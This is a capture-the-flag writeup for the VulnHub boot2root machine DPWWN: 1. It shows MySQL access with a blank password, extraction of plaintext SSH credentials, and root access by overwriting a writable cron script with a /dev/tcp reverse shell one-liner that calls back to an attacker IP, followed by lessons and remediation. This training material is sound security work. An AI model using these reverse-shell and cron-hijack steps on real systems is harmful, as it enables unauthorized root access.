



# DPWWN: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.101 |
| **Difficulty** | Easy |
| **OS** | Linux |
| **Goal** | root flag (`dpwwn-01-FLAG.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/dpwwn-1-vulnhub-walkthrough/) |
| **VulnHub** | https://www.vulnhub.com/entry/dpwwn-1,342/ |

## Attack Summary

DPWWN: 1 is a beginner boot2root machine created by Debashish Pal. MySQL is exposed on port 3306 with a blank root password, allowing direct enumeration of an `ssh` database that contains plaintext SSH credentials. After logging in as the user `mistic`, a writable cron script (`logrot.sh`) running as root is identified and overwritten with a reverse shell payload, granting a root shell.

## Methodology

1. Host discovery and port scan
2. MySQL unauthenticated access and credential extraction
3. SSH login with dumped credentials
4. Cron abuse — overwrite writable root-owned script
5. Root shell via reverse shell

## Step 1: Reconnaissance

### Host Discovery

```bash
netdiscover
```

Target identified at `192.168.1.101`.

### Port Scan

```bash
nmap -A 192.168.1.101
```

Open ports:

| Port | Service | Version |
|---|---|---|
| 22 | SSH | OpenSSH |
| 80 | HTTP | Apache |
| 3306 | MySQL | MySQL |


## Step 2: MySQL Enumeration

Port 3306 is open. Test for unauthenticated access with a blank password:

```bash
mysql -h 192.168.1.101 -u root -p
# Press Enter at the password prompt (blank password)
```

Access granted without a password.

### List Databases

```sql
show databases;
```

The database `ssh` stands out.

### Dump SSH Credentials

```sql
use ssh;
show tables;
select * from users;
```


Credentials recovered:

| Username | Password |
|---|---|
| `mistic` | `testP@$$swordmistic` |

## Step 3: SSH Login

```bash
ssh mistic@192.168.1.101
# Password: testP@$$swordmistic
```

Shell obtained as `mistic`.

## Step 4: Cron Enumeration

List home directory contents:

```bash
ls -la
cat logrot.sh
```

The file `logrot.sh` is a bash script that collects system logs. Check who runs it:

```bash
cat /etc/crontab
```



The crontab shows `logrot.sh` is executed by root on a schedule. Check permissions:

```bash
ls -la logrot.sh
```

The script is writable by the current user.

## Step 5: Reverse Shell Payload

### Generate Payload

On the attacker machine, generate a bash reverse shell payload:

```bash
msfvenom -p cmd/unix/reverse_bash lhost=192.168.1.106 lport=1234 R
```



The output is a one-liner like:

```
0<&74-;exec 74<>/dev/tcp/192.168.1.106/1234;sh <&74 >&74 2>&74
```

### Overwrite the Cron Script

On the target, replace the content of `logrot.sh` with the reverse shell:

```bash
echo '0<&74-;exec 74<>/dev/tcp/192.168.1.106/1234;sh <&74 >&74 2>&74' > logrot.sh
```

Verify the overwrite:

```bash
cat logrot.sh
```

## Step 6: Root Shell

Start a Netcat listener on the attacker machine:

```bash
nc -lvnp 1234
```

Wait for the cron job to execute (at most one minute if the job runs minutely). A root shell arrives on the listener.

Upgrade to an interactive shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Step 7: Read the Flag

```bash
cd /root
ls
cat dpwwn-01-FLAG.txt
```



## Vulnerabilities Found

| # | Vulnerability | Location | Severity |
|---|---|---|---|
| 1 | MySQL exposed with blank root password | Port 3306 | Critical |
| 2 | Plaintext SSH credentials in database | `ssh.users` table | Critical |
| 3 | World-writable cron script executed as root | `logrot.sh` | Critical |

## Lessons Learned

- Database services should never be exposed on the network without authentication. MySQL port 3306 should be bound to `127.0.0.1` unless explicitly required.
- Storing credentials in plaintext inside a database that is publicly accessible represents a complete collapse of the defense model.
- Any file executed by a privileged cron job must be owned by root and not writable by unprivileged users.

## Remediation

| Vulnerability | Fix |
|---|---|
| MySQL blank root password | Set a strong password: `ALTER USER 'root'@'%' IDENTIFIED BY 'StrongPassword';` |
| MySQL network exposure | Bind MySQL to localhost only: `bind-address = 127.0.0.1` in `my.cnf` |
| Plaintext credentials | Never store credentials in a database table; use hashed secrets |
| Writable cron script | `chown root:root logrot.sh && chmod 700 logrot.sh` |
